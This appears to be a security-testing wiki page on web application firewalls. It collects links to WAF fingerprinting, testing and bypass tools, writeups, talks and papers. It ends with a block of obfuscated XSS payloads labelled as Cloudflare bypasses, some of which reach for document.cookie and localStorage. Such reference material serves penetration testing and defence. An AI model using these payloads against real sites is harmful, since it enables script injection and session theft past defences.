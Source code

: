 # Web Application Firewall

## WAF Testing Resources

[Awesome-WAF](https://github.com/0xInfection/Awesome-WAF) - The Definitive Guide.

<details>

<summary>Detection and Fingerprinting Tools</summary>

* [WhatWaf](https://github.com/Ekultek/WhatWaf) - Detect and bypass web application firewalls and protection systems
* [WAFW00F](https://github.com/enablesecurity/wafw00f) - The ultimate WAF fingerprinting tool with the largest fingerprint database from [@EnableSecurity](https://github.com/enablesecurity).
* [IdentYwaf](https://github.com/stamparm/identywaf) - A blind WAF detection tool which utlises a unique method of identifying WAFs based upon previously collected fingerprints by [@stamparm](https://github.com/stamparm).

</details>

<details>

<summary>WAF Testing Guides and Tools</summary>

* [XSS-Rat's WAF Checklist](https://github.com/The-XSS-Rat/SecurityTesting/blob/master/Checklists/WAF-bypass-checklist.md) - Everything you need to do to bypass a Web Application Firewall.
* [GoTestWAF](https://github.com/wallarm/gotestwaf) - A tool to test a WAF's detection logic and bypasses from [@wallarm](https://github.com/wallarm).
* [Lightbulb Framework](https://github.com/lightbulb-framework/lightbulb-framework) - A WAF testing suite written in Python.
* [WAFBench](https://github.com/microsoft/wafbench) - A WAF performance testing suite by [Microsoft](https://github.com/microsoft).
* [WAF Testing Framework](https://www.imperva.com/lg/lgw\_trial.asp?pid=483) - A WAF testing tool by [Imperva](https://imperva.com).
* [Framework for Testing WAFs (FTW)](https://github.com/coreruleset/ftw) - A framework by the [OWASP CRS team](https://coreruleset.org/) that helps to provide rigorous tests for WAF rules by using the OWASP Core Ruleset V3 as a baseline.
* [abuse-ssl-bypass-waf](https://github.com/LandGrey/abuse-ssl-bypass-waf) - Bypassing WAF by abusing SSL/TLS Ciphers

</details>

<details>

<summary>WAF Evasion and Bypass Tools</summary>

* [WAFNinja](https://github.com/khalilbijjou/wafninja) - A smart tool which fuzzes and can suggest bypasses for a given WAF by [@khalilbijjou](https://github.com/khalilbijjou/).
* [WAFTester](https://github.com/Raz0r/waftester) - Another tool which can obfuscate payloads to bypass WAFs by [@Raz0r](https://github.com/Raz0r/).
* [libinjection-fuzzer](https://github.com/migolovanov/libinjection-fuzzer) - A fuzzer intended for finding `libinjection` bypasses but can be probably used universally.
* [bypass-firewalls-by-DNS-history](https://github.com/vincentcox/bypass-firewalls-by-DNS-history) - Firewall bypass script based on DNS history records. This script will search for DNS A history records and check if the server replies for that domain. Handy for bugbounty hunters.
* [abuse-ssl-bypass-waf](https://github.com/LandGrey/abuse-ssl-bypass-waf) - A tool which finds out supported SSL/TLS ciphers and helps in evading WAFs.
* [SQLMap Tamper Scripts](https://github.com/sqlmapproject/sqlmap) - Tamper scripts in SQLMap obfuscate payloads which might evade some WAFs.
* [Bypass WAF BurpSuite Plugin](https://portswigger.net/bappstore/ae2611da3bbc4687953a1f4ba6a4e04c) - A plugin for Burp Suite which adds some request headers so that the requests seem from the internal network
* Bypass Payloads
  * [https://github.com/waf-bypass-maker/waf-community-bypasses](https://github.com/waf-bypass-maker/waf-community-bypasses)
  * [https://github.com/Walidhossain010/WAF-bypass-xss-payloads](https://github.com/Walidhossain010/WAF-bypass-xss-payloads)

</details>

## Training and Research

{% tabs %}
{% tab title="Blogs and Writeups" %}
> Many of the content mentioned above have been taken from some of the following excellent writeup

* [Web Application Firewall (WAF) Evasion Techniques #1](https://medium.com/secjuice/waf-evasion-techniques-718026d693d8) - By [@Secjuice](https://www.secjuice.com).
* [Web Application Firewall (WAF) Evasion Techniques #2](https://medium.com/secjuice/web-application-firewall-waf-evasion-techniques-2-125995f3e7b0) - By [@Secjuice](https://www.secjuice.com).
* [Web Application Firewall (WAF) Evasion Techniques #3](https://www.secjuice.com/web-application-firewall-waf-evasion/) - By [@Secjuice](https://www.secjuice.com).
* [How To Exploit PHP Remotely To Bypass Filters & WAF Rules](https://www.secjuice.com/php-rce-bypass-filters-sanitization-waf/)- By [@Secjuice](https://secjuice.com)
* [ModSecurity SQL Injection Challenge: Lessons Learned](https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/modsecurity-sql-injection-challenge-lessons-learned/) - By [@SpiderLabs](https://trustwave.com).
* [XXE that can Bypass WAF](https://lab.wallarm.com/xxe-that-can-bypass-waf-protection-98f679452ce0) - By [@WallArm](https://labs.wallarm.com).
* [SQL Injection Bypassing WAF](https://www.owasp.org/index.php/SQL\_Injection\_Bypassing\_WAF) - By [@OWASP](https://owasp.com).
* [How To Reverse Engineer A Web Application Firewall Using Regular Expression Reversing](https://www.sunnyhoi.com/reverse-engineer-web-application-firewall-using-regular-expression-reversing/) - By [@SunnyHoi](https://twitter.com/sunnyhoi).
* [Bypassing Web-Application Firewalls by abusing SSL/TLS](https://0x09al.github.io/waf/bypass/ssl/2018/07/02/web-application-firewall-bypass.html) - By [@0x09AL](https://twitter.com/0x09al).
* [Request Encoding to Bypass WAFs](https://www.nccgroup.trust/uk/about-us/newsroom-and-events/blogs/2017/august/request-encoding-to-bypass-web-application-firewalls/) - By [@Soroush Dalili](https://twitter.com/irsdl)
{% endtab %}

{% tab title="Presentations" %}
* [Methods to Bypass a Web Application Firewall](https://github.com/0xInfection/Awesome-WAF/blob/master/presentrations/Methods%20To%20Bypass%20A%20Web%20Application%20Firewall.pdf) - A presentation from [PT Security](https://www.ptsecurity.com) about bypassing WAF filters and evasion.
* [Web Application Firewall Bypassing (How to Defeat the Blue Team)](https://github.com/0xInfection/Awesome-WAF/blob/master/presentation/Web%20Application%20Firewall%20Bypassing%20\(How%20to%20Defeat%20the%20Blue%20Team\).pdf) - A presentation about bypassing WAF filtering and ruleset fuzzing for evasion by [@OWASP](https://owasp.org).
* [WAF Profiling & Evasion Techniques](https://github.com/0xInfection/Awesome-WAF/blob/master/presentations/OWASP%20WAF%20Profiling%20&%20Evasion.pdf) - A WAF testing and evasion guide from [OWASP](https://www.owasp.org).
* [Protocol Level WAF Evasion Techniques](https://github.com/0xInfection/Awesome-WAF/blob/master/presentations/BlackHat%20US%2012%20-%20Protocol%20Level%20WAF%20Evasion%20\(Slides\).pdf) - A presentation at about efficiently evading WAFs at protocol level from [BlackHat US 12](https://www.blackhat.com/html/bh-us-12/).
* [Analysing Attacking Detection Logic Mechanisms](https://github.com/0xInfection/Awesome-WAF/blob/master/presentations/BlackHat%20US%2016%20-%20Analysis%20of%20Attack%20Detection%20Logic.pdf) - A presentation about WAF logic applied to detecting attacks from [BlackHat US 16](https://www.blackhat.com/html/bh-us-16/).
* [WAF Bypasses and PHP Exploits](https://github.com/0xInfection/Awesome-WAF/blob/master/presentations/WAF%20Bypasses%20and%20PHP%20Exploits%20\(Slides\).pdf) - A presentation about evading WAFs and developing related PHP exploits.
* [Side Channel Attacks for Fingerprinting WAF Filter Rules](https://github.com/0xInfection/Awesome-WAF/blob/master/presentations/Side%20Channel%20Attacks%20for%20Fingerprinting%20WAF%20Filter%20Rules.pdf) - A presentation about how side channel attacks can be utilised to fingerprint firewall filter rules from [UseNix Woot'12](https://www.usenix.org/conference/woot12).
* [Our Favorite XSS Filters/IDS and how to Attack Them](https://github.com/0xInfection/Awesome-WAF/blob/master/presentations/Our%20Favourite%20XSS%20WAF%20Filters%20And%20How%20To%20Bypass%20Them.pdf) - A presentation about how to evade XSS filters set by WAF rules from [BlackHat USA 09](https://www.blackhat.com/html/bh-us-09/).
* [Playing Around with WAFs](https://github.com/0xInfection/Awesome-WAF/blob/master/presentations/Playing%20Around%20with%20WAFs.pdf) - A small presentation about WAF profiling and playing around with them from [Defcon 16](http://www.defcon.org/html/defcon-16/dc-16-post.html).
* [A Forgotten HTTP Invisibility Cloak](https://github.com/0xInfection/Awesome-WAF/blob/master/presentation/A%20Forgotten%20HTTP%20Invisibility%20Cloak.pdf) - A presentation about techniques that can be used to bypass common WAFs from [BSides Manchester](https://www.bsidesmcr.org.uk/).
* [Building Your Own WAF as a Service and Forgetting about False Positives](https://github.com/0xInfection/Awesome-WAF/blob/master/presentations/Building%20Your%20Own%20WAF%20as%20a%20Service%20and%20Forgetting%20about%20False%20Positives.pdf) - A presentation about how to build a hybrid mode waf that can work both in an out-of-band manner as well as inline to reduce false positives and latency [Auscert2019](https://conference.auscert.org.au/).
{% endtab %}

{% tab title="Videos" %}
* [WAF Bypass Techniques Using HTTP Standard and Web Servers Behavior](https://www.youtube.com/watch?v=tSf\_IXfuzXk) from [@OWASP](https://owasp.org).
* [Confessions of a WAF Developer: Protocol-Level Evasion of Web App Firewalls](https://www.youtube.com/watch?v=PVVG4rCFZGU) from [BlackHat USA 12](https://blackhat.com/html/bh-us-12).
* [Web Application Firewall - Analysis of Detection Logic](https://www.youtube.com/watch?v=dMFJLicdaC0) from [BlackHat](https://blackhat.com).
* [Bypassing Browser Security Policies for Fun & Profit](https://www.youtube.com/watch?v=P5R4KeCzO-Q) from [BlackHat](https://blackhat.com).
* [Web Application Firewall Bypassing](https://www.youtube.com/watch?v=SD7ForrwUMY) from [Positive Technologies](https://ptsecurity.com).
* [Fingerprinting Filter Rules of Web Application Firewalls - Side Channeling Attacks](https://www.usenix.org/conference/woot12/workshop-program/presentation/schmitt) from [@UseNix](https://www.usenix.com).
* [Evading Deep Inspection Systems for Fun and Shell](https://www.youtube.com/watch?v=BkmPZhgLmRo) from [BlackHat US 13](https://blackhat.com/html/bh-us-13).
* [Bypass OWASP CRS && CWAF (WAF Rule Testing - Unrestricted File Upload)](https://www.youtube.com/watch?v=lWoxAjvgiHs) from [Fools of Security](https://www.youtube.com/channel/UCEBHO0kD1WFvIhf9wBCU-VQ).
* [WAFs FTW! A modern devops approach to security testing your WAF](https://www.youtube.com/watch?v=05Uy0R7UdFw) from [AppSec USA 17](https://www.youtube.com/user/OWASPGLOBAL).
* [Web Application Firewall Bypassing WorkShop](https://www.youtube.com/watch?v=zfBT7Kc57xs) from [OWASP](https://owasp.com).
* [Bypassing Modern WAF's Exemplified At XSS by Rafay Baloch](https://www.youtube.com/watch?v=dWLpw-7\_pa8) from [Rafay Bloch](http://rafaybaloch.com).
* [WTF - WAF Testing Framework](https://www.youtube.com/watch?v=ixb-L5JWJgI) from [AppSecUSA 13](https://owasp.org).
* [The Death of a Web App Firewall](https://www.youtube.com/watch?v=mB\_xGSNm8Z0) from [Brian McHenry](https://www.youtube.com/channel/UCxzs-N2sHnXFwi0XjDIMTPg).
* [Adventures with the WAF](https://www.youtube.com/watch?v=rdwB\_p0KZXM) from [BSides Manchester](https://www.youtube.com/channel/UC1mLiimOTqZFK98VwM8Ke4w).
* [Bypassing Intrusion Detection Systems](https://www.youtube.com/watch?v=cJ3LhQXzrXw) from [BlackHat](https://blackhat.com).
* [Building Your Own WAF as a Service and Forgetting about False Positives](https://www.youtube.com/watch?v=dgqUcHprolc) from [Auscert](https://conference.auscert.org.au).
{% endtab %}

{% tab title="Research Papers" %}
#### Research Papers:

* [Protocol Level WAF Evasion](https://github.com/0xInfection/Awesome-WAF/blob/master/papers/Qualys%20Guide%20-%20Protocol-Level%20WAF%20Evasion.pdf) - A protocol level WAF evasion techniques and analysis by [Qualys](https://www.qualys.com).
* [Neural Network based WAF for SQLi](https://github.com/0xInfection/Awesome-WAF/blob/master/papers/Artificial%20Neural%20Network%20based%20WAF%20for%20SQL%20Injection.pdf) - A paper about building a neural network based WAF for detecting SQLi attacks.
* [Bypassing Web Application Firewalls with HTTP Parameter Pollution](https://github.com/0xInfection/Awesome-WAF/blob/master/papers/Bypassing%20Web%20Application%20Firewalls%20with%20HTTP%20Parameter%20Pollution.pdf) - A research paper from [Exploit DB](https://exploit-db.com) about effectively bypassing WAFs via HTTP Parameter Pollution.
* [Poking A Hole in the Firewall](https://github.com/0xInfection/Awesome-WAF/blob/master/papers/Poking%20A%20Hole%20In%20The%20Firewall.pdf) - A paper by [Rafay Baloch](https://www.rafaybaloch.com) about modern firewall analysis.
* [Modern WAF Fingerprinting and XSS Filter Bypass](https://github.com/0xInfection/Awesome-WAF/blob/master/papers/Modern%20WAF%20Fingerprinting%20and%20XSS%20Filter%20Bypass.pdf) - A paper by [Rafay Baloch](https://www.rafaybaloch.com) about WAF fingerprinting and bypassing XSS filters.
* [WAF Evasion Testing](https://github.com/0xInfection/Awesome-WAF/blob/master/papers/SANS%20Guide%20-%20WAF%20Evasion%20Testing.pdf) - A WAF evasion testing guide from [SANS](https://www.sans.org).
* [Side Channel Attacks for Fingerprinting WAF Filter Rules](https://github.com/0xInfection/Awesome-WAF/blob/master/papers/Side%20Channel%20\(Timing\)%20Attacks%20for%20Fingerprinting%20WAF%20Rules.pdf) - A paper about how side channel attacks can be utilised to fingerprint firewall filter rules from [UseNix Woot'12](https://www.usenix.org/conference/woot12).
* [WASC WAF Evaluation Criteria](https://github.com/0xInfection/Awesome-WAF/blob/master/papers/WASC%20WAF%20Evaluation%20Criteria.pdf) - A guide for WAF Evaluation from [Web Application Security Consortium](http://www.webappsec.org).
* [WAF Evaluation and Analysis](https://github.com/0xInfection/Awesome-WAF/blob/master/papers/Web%20Application%20Firewalls%20-%20Evaluation%20and%20Analysis.pdf) - A paper about WAF evaluation and analysis of 2 most used WAFs (ModSecurity & WebKnight) from [University of Amsterdam](http://www.uva.nl).
* [Bypassing all WAF XSS Filters](https://github.com/0xInfection/Awesome-WAF/blob/master/papers/Evading%20All%20Web-Application%20Firewalls%20XSS%20Filters.pdf) - A paper about bypassing all XSS filter rules and evading WAFs for XSS.
* [Beyond SQLi - Obfuscate and Bypass WAFs](https://github.com/0xInfection/Awesome-WAF/blob/master/papers/Beyond%20SQLi%20-%20Obfuscate%20and%20Bypass%20WAFs.txt) - A research paper from [Exploit Database](https://exploit-db.com) about obfuscating SQL injection queries to effectively bypass WAFs.
* [Bypassing WAF XSS Detection Mechanisms](https://github.com/0xInfection/Awesome-WAF/blob/master/papers/Bypassing%20WAF%20XSS%20Detection%20Mechanisms.pdf) - A research paper about bypassing XSS detection mechanisms in WAFs.
{% endtab %}
{% endtabs %}

## Cloudflare Bypass

<details>

<summary>Cloudflare Bypass</summary>

```
<svg%0Aonauxclick=0;[1].some(confirm)//

<svg onload=alert%26%230000000040"")>

<a/href=j&Tab;a&Tab;v&Tab;asc&NewLine;ri&Tab;pt&colon;&lpar;a&Tab;l&Tab;e&Tab;r&Tab;t&Tab;(1)&rpar;>
<svg onx=() onload=(confirm)(1)>

<svg onx=() onload=(confirm)(document.cookie)>

<svg onx=() onload=(confirm)(JSON.stringify(localStorage))>

Function("\x61\x6c\x65\x72\x74\x28\x31\x29")();

"><img%20src=x%20onmouseover=prompt%26%2300000000000000000040;document.cookie%26%2300000000000000000041;

Function("\x61\x6c\x65\x72\x74\x28\x31\x29")();

"><onx=[] onmouseover=prompt(1)>

%2sscript%2ualert()%2s/script%2u -xss popup

<svg onload=alert%26%230000000040"1")>

"Onx=() onMouSeoVer=prompt(1)>"Onx=[] onMouSeoVer=prompt(1)>"/*/Onx=""//onfocus=prompt(1)>"//Onx=""/*/%01onfocus=prompt(1)>"%01onClick=prompt(1)>"%2501onclick=prompt(1)>"onClick="(prompt)(1)"Onclick="(prompt(1))"OnCliCk="(prompt`1`)"Onclick="([1].map(confirm))

[1].map(confirm)'ale'+'rt'()a&Tab;l&Tab;e&Tab;r&Tab;t(1)prompt&lpar;1&rpar;prompt&#40;1&#41;prompt%26%2300000000000000000040;1%26%2300000000000000000041;(prompt())(prompt``)

<svg onload=prompt%26%230000000040document.domain)>

<svg onload=prompt%26%23x000000028;document.domain)>

<svg/onrandom=random onload=confirm(1)>

<video onnull=null onmouseover=confirm(1)>

<a id=x tabindex=1 onbeforedeactivate=print(`XSS`)></a><input autofocus>

:javascript%3avar{a%3aonerror}%3d{a%3aalert}%3bthrow%2520document.cookie

<img ignored=() src=x onerror=prompt(1)>
```



</details>
